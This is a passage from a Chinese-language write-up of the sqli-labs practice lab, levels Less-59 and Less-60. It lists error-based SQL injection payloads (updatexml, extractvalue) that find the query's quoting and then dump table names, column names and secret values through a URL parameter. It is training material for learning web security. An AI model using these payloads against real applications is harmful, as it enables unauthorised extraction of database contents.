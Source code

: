 ![118](/medias/sqli-labs/118.png)


爆数据

```sql
?id=0' or updatexml(1,concat(0x7e,(select group_concat(secret_4FE6) from 1I2IZXOTD3),0x7e),1)%23
```

![119](/medias/sqli-labs/119.png)

## Less-59

测试后台闭合方式

```sql
?id=0 or 1=1%23
```

![120](/medias/sqli-labs/120.png)

爆表、字段

```sql
# 表名 K7RBPJ7JI6
?id=0 or extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e))%23
```

```sql
# 字段 id,sessid,secret_9FTK,tryy
?id=0 or extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database()),0x7e))%23
```

爆数据

```sql
?id=0 or extractvalue(1,concat(0x7e,(select group_concat(secret_9FTK) from K7RBPJ7JI6),0x7e))%23
```


## Less-60

测试后台闭合方式

```sql
?id=0") or 1=1%23
```

爆表、字段

```sql
# 表名 FJ6S67618K
?id=0") or extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e))%23
```

```sql
# 字段 id,sessid,secret_BG4H,tryy
?id=0") or extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database()),0x7e))%23
```
